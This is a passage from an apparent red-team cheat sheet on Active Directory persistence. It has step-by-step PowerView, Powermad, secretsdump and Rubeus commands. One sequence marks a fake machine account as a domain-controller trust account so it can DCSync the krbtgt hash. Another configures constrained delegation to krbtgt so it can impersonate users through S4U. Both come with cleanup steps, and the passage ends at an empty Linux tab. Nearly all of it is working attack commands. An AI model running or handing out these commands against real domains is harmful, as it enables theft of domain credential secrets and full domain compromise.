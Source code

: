 2\. Set the `SERVER_TRUST_ACCOUNT` bit:

```
PV3 > Set-DomainObject FakeMachine -Set @{useraccountcontrol=8192}
PV3 > Get-DomainComputer FakeMachine | select name,primarygroupid,useraccountcontrol

name        primarygroupid   useraccountcontrol
----        --------------   ------------------
FakeMachine            516 SERVER_TRUST_ACCOUNT
```

3\. Perform DCSync:

```
$ secretsdump.py MEGACORP/'FakeMachine$:Passw0rd!'@DC01.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt'
```

4\. Cleanup:

```
PV3 > Set-DomainObject FakeMachine -Set @{useraccountcontrol=4096}
Or
PM > Remove-MachineAccount -MachineAccount FakeMachine
```




## KRBTGT Constrained Delegation

- [https://skyblue.team/posts/delegate-krbtgt/](https://skyblue.team/posts/delegate-krbtgt/)

{% tabs %}
{% tab title="Windows" %}
```powershell
# create a new service account (or abuse an existing one)
PM > New-MachineAccount -Domain megacorp.local -DomainController DC01.megacorp.local -MachineAccount FakeMachine -Password $(ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force) -Verbose
# set UAC to be 'WORKSTATION_TRUST_ACCOUNT | TRUSTED_TO_AUTH_FOR_DELEGATION'
PV3 > Set-DomainObject "CN=FakeMachine,CN=Computers,DC=megacorp,DC=local" -Set @{useraccountcontrol=16781312} -Verbose
# set the krbtgt SPN for delegation
PV3 > Set-DomainObject "CN=FakeMachine,CN=Computers,DC=megacorp,DC=local" -Set @{"msDS-AllowedToDelegateTo"=@("krbtgt/MEGACORP")} -Verbose
# request TGS via S4U (will act as a TGT of the impersonated user)
PS > .\Rubeus.exe s4u /domain:megacorp.net /user:FakeMachine$ /rc4:b2bdbe60565b677dfb133866722317fd /impersonateuser:snovvcrash /msdsspn:krbtgt/MEGACORP /ptt
# cleanup: remove the SPN for delegation
PV3 > Set-DomainObject "CN=FakeMachine,CN=Computers,DC=megacorp,DC=local" -Clear msDS-AllowedToDelegateTo -Verbose
# cleanup: back to UAC 'WORKSTATION_TRUST_ACCOUNT'
PV3 > Set-DomainObject "CN=FakeMachine,CN=Computers,DC=megacorp,DC=local" -Set @{useraccountcontrol=4096} -Verbose
```
{% endtab %}
{% tab title="Linux" %}
